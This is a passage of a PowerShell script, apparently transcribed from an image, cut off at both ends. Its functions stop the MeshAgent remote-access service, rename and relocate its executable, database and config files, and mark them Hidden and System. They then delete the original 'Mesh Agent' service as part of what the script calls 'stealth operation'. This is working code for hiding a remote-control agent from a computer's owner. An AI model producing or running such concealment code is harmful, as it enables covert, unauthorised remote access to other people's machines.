 ```powershell
            Stop-Process -Name 'meshagent' -Force
            Start-Sleep -Seconds 1
        }

        Write-StealthLog "Service stopped successfully" -Level 'SUCCESS'
        return $true
    } catch {
        Write-StealthLog "Error stopping service: $_" -Level 'ERROR'
        return $false
    }
}

function Rename-MeshAgentFiles {
    Write-StealthLog "Renaming and relocating MeshAgent files..."

    $defaultPath = 'C:\Program Files\Mesh Agent'
    $newPath = $StealthConfig.InstallPath

    try {
        # Create new installation directory
        if (-not (Test-Path $newPath)) {
            New-Item -Path $newPath -ItemType Directory -Force | Out-Null
        }

        # Copy and rename files
        Copy-Item -Path "$defaultPath\meshagent.exe" -Destination "$newPath\$($StealthConfig.ExecutableName)" -Force
        Copy-Item -Path "$defaultPath\meshagent.db" -Destination "$newPath\$($StealthConfig.DatabaseName)" -Force

        # Copy .msh configuration file if exists
        if (Test-Path "$defaultPath\meshagent.msh") {
            Copy-Item -Path "$defaultPath\meshagent.msh" -Destination "$newPath\$($StealthConfig.ConfigFileName)" -Force
        }

        # Set hidden + system attributes
        Set-ItemProperty -Path $newPath -Name Attributes -Value ([System.IO.FileAttributes]::Hidden -bor [System.IO.FileAttributes]::System)
        Set-ItemProperty -Path "$newPath\$($StealthConfig.ExecutableName)" -Name Attributes -Value ([System.IO.FileAttributes]::Hidden -bor [System.IO.FileAttributes]::System)

        Write-StealthLog "Files relocated to: $newPath" -Level 'SUCCESS'
        return $true

    } catch {
        Write-StealthLog "Error renaming files: $_" -Level 'ERROR'
        return $false
    }
}

function Update-ServiceRegistration {
    Write-StealthLog "Updating service registration for stealth operation..."

    try {
        # Stop the original service
        sc.exe stop "Mesh Agent" | Out-Null
        Start-Sleep -Seconds 2

        # Delete original service
        sc.exe delete "Mesh Agent" | Out-Null
        Start-Sleep -Seconds 1

```